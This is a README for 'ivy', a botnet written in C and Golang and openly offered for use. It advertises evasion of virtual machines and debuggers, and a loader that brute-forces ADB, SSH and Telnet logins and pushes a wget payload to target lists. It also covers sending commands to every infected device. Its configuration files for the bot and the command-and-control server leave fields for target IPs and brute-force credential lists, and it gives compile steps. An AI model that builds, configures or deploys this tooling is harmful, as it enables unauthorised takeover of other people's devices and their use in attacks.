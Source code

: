 <h1 align="center">
	<img src="https://user-images.githubusercontent.com/95945026/145702221-ed6d438c-436c-47b9-8e9f-c9223963394b.png" width="150px"><br>
    ivy - A large botnet written in C and Golang.
</h1>
<p align="center">
    Ivy is a large, feature-rich botnet written in C and Golang that is
    extremely easy to use, and comes with a built-in loader.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Features
Feature  | Description
-------- | -----------
Anti VM | The bot for Ivy checks if it's being ran in a virtual machine by checking for the uptime and hardware specifications. If it detects anything suspicious, it exits.
Anti Debug | The bot for Ivy checks if it's being debugged. If it is, it exits.
Loader | Ivy has a built-in loader that can brute and send payloads to devices via ADB, SSH, and Telnet.
Command Execution | You can send data to all the connected devices.
Configuration | Ivy makes it extremely easy to configure the loader, bot, and C2.

## Bot Configuration
The configuration file for the bot is located in `util/bot/includes/config/config.h`.
```c
#pragma once


/*
    *    util/bot/includes/config/config.h
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


#define C2_IP "127.0.0.1"
#define C2_PORT 1337
```
	
## Server Configuration
The configuration file for the bot is located in `util/config/config.go`.
```go
package config

import (
	"net"
)


/*
    *    util/config/config.go
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


var Bots []net.Conn /* Don't touch this! */
var BotCount int = 0 /* Don't touch this! */

/* Server Configuration */
const (
    C2_IP = "127.0.0.1" /* Server IP! */
    C2_PORT = "1337" /* Server Port! */
    MAX_BOTS = 1024 /* Max amount of bots allowed to connect to the server! */
)

/* Loader Configuration */
const (
    LOADER_ENABLE = false /* Set this to 'true' if you want to use the loader! */
    LOADER_PAYLOAD = "" /* Add your own custom wget payload here! */
    LOADER_OPTION = "" /* The options are '--adb', '--ssh', and '--telnet'! */
    LOADER_IP_LIST = "" /* Add your list containing the IP addresses of targets! */
    LOADER_BRUTE_LIST = "" /* Add your list containing the username/password combinations to brute against the target! */
)
```

## Setup & Installation
```
Steps for compiling & running:
  ./compile.sh
```

## Screenshots
![image](https://user-images.githubusercontent.com/95945026/145702343-1c574e9e-afe3-435a-ad76-9cfb15d2c9f4.png)

## Credits
```
https://github.com/0x80000000
```

### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
